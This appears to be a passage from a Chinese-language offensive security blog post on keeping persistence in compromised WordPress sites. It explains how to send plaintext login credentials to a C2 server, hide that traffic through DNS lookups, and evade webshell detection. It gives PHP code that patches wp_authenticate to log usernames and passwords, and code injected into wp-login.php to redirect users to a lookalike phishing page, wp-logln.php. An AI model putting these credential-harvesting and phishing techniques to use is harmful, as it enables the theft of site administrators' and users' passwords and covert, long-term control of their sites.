 在c2建立监听 当wordpress用户登录时 就会向c2发送明文账号密码[![](assets/1706513536-93b483fe3c8549430ce28b486f6ec726.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705049648036-6bc3a997-6283-44ec-97a1-acd7ef719939.png#averageHue=%2344484d&clientId=u73ac5ba2-244f-4&from=paste&height=208&id=ucb42f755&originHeight=416&originWidth=1424&originalType=binary&ratio=2&rotation=0&showTitle=false&size=116522&status=done&style=none&taskId=u9c4e8158-08ec-418c-8484-61a3cd40b1b&title=&width=712)  
对于明文密码的传递可以通过dns\_get\_record等函数进行流量的特征脱敏  
对于后门部分可以通过规避webshell检测工具的思路编写

但是这样的实现方式总归都很容易察觉 并且system之类的函数在应用部署后基本就是默认禁用

所以还是使用写入本地文件 隔一段时间再上线查看比较可靠

```plain
function wp_authenticate($username, $password) {

    $username = sanitize_user($username);
    $password = trim($password);
  file_put_contents('accesss.log',$username.$password);
   ...
```

[![](assets/1706513536-924a6c71e35fad3d3753496b9b84402b.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705057214590-b48ec082-f011-4309-949f-8917db67a1f8.png#averageHue=%230d1414&clientId=u73ac5ba2-244f-4&from=paste&height=124&id=uf7cb4e9b&originHeight=248&originWidth=1002&originalType=binary&ratio=2&rotation=0&showTitle=false&size=103557&status=done&style=none&taskId=uba5567ac-9c7d-49ee-b15e-7aadeebf323&title=&width=501)

### 钓鱼劫持

针对安全意识不强的操作人员 可以通过钓鱼劫持的方式将访问/wp-login.php的请求重定向到钓鱼页面,在钓鱼网站输入密码后再重定向到原本的登录界面  
针对不出网的环境 可以部署相似文件名的本地文件做鱼饵 如wp-logln.php  
1.在wp\_login.php中插入重定向到wp\_logln.php的语句 通过session字段避免重定向死循环

```plain
session_start();
$host = $_SERVER['HTTP_HOST'];
if(!isset($_SESSION['redirected'])){
    $_SESSION['redirected'] = true;
    header('Location: http://' . $host . '/wp-logln.php');
}
```
